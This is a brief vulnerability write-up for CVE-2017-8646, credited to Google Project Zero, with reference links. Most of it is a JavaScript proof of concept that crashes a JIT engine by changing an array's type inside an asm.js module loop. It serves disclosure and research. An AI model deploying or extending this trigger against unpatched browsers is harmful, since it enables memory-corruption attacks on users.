 # CVE-2017-8646

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function asmModule() {
    'use asm';

    let a = [1, 2, 3, 4];
    for (let i = 0; i < 0x100000; i++) {  // JIT
        a[0] = 1;
        if (i === 0x30000) {
            a[0] = {};  // the array type changed, bailout!!
        }
    }

    function f(v) {
        v = v | 0;
        return v | 0;
    }
    return f;
}

asmModule(1);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8646)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1277)
